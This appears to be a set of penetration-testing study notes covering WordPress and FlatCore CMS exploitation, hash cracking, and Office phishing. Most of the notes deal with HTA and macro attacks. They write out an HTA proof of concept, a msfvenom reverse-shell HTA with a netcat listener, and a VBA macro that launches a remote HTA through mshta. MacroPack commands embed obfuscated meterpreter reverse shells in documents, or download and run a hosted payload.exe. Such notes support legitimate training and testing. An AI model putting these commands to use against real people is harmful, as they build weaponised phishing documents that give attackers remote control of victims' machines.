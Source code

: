 ### Wordpress 6.1

- Use module `use auxiliary/scanner/http/wordpress_scanner` for scanning vuln plugin
- The specific version of Duplicator plugin have a vuln to read a file. Use `msf` module to exploit

### Httpd Apache - FlatCore CMS

The version 2.0.7 have server side vuln [Exploit-50262](https://www.exploit-db.com/exploits/50262)
- Download and run with python3 (Must have creds)

## Note
- `netstat -antp` Check open port on host
- Doesn't know what type of hash: `hash-identifier <hash>`
- Cracking `Des(Unix)` - `john --format=descrypt hash.txt`

### Pretext Phishing document

Resource:
- [Office phish template](https://github.com/martinsohn/Office-phish-templates)

### HTML Application

Application using HTML, CSS, JS to build, run in a special environment provide by Browser(IE, Edge)
- Can run independent on Windows
- IE (Internet Explorer) automatic execute HTML app with `mshta.exe` 
  - Always executed with security context of the current user.
  - HTA can have access to the local filesystem, registry and can execute ActiveX controls.
  - Allow HTA to run outside the constrains of the web browser
- The attack vector is typically classified as a Drive by Compromise technique
- They can be use for persistence and evasion

Simple HTA app

```html
<html>
    <head>
        <script>
            var payload = 'calc.exe'
            new ActiveXObject('Wscript.Shell').Run(payload)
        </script>
    </head>
    <body>
        <h1> HTA POC</h1>
        <script>
            self.close()
        </script>
    </body>
</html>
```

**Attack**:
- Generate hta payload `msfvenom -p windows/shell_reverse_tcp LHOST=<Host_ip> LPORT=4444 -f hta-psh -o shell.hta
- Set up listener `nc -nvlp 4444`
- Run the hta app on victim machine
  - Or we can create a marco to download the app and automatic open it

```vb
Sub ExecuteHTA()
    Dim url As String
    Dim command As String

    url = "URL_TO_HTA"
    command = "mshta.exe " & url

    Shell command, vbNormalFocus
End Sub
```

### Automating Marco development with MarcoPack

[Marco Pack](https://github.com/sevagas/macro_pack)

- Have obfuscate feature
- Support a lot of format

How to use:
- `marco_pack --list-formats` List supported format
- `echo "calc.exe" | marco_pack.exe -t CMD -o -G "test.doc"` Create marco open calc.exe in the `test.doc` file
  - `-o` Obfuscate
- `--list-templates` List all template of payload

Create payload with msfvenom
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 | .\marco_pack.exe -o -G "resume.doc"` Direct inject payload to marco of file
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 -f exe > payload.exe` -> Host the payload
  - `echo "http:\\Host_ip\payload.exe" "payload.exe" | .\marco_pack.exe -o -G "sheet.xls"` -> Generate the document to download payload and execute it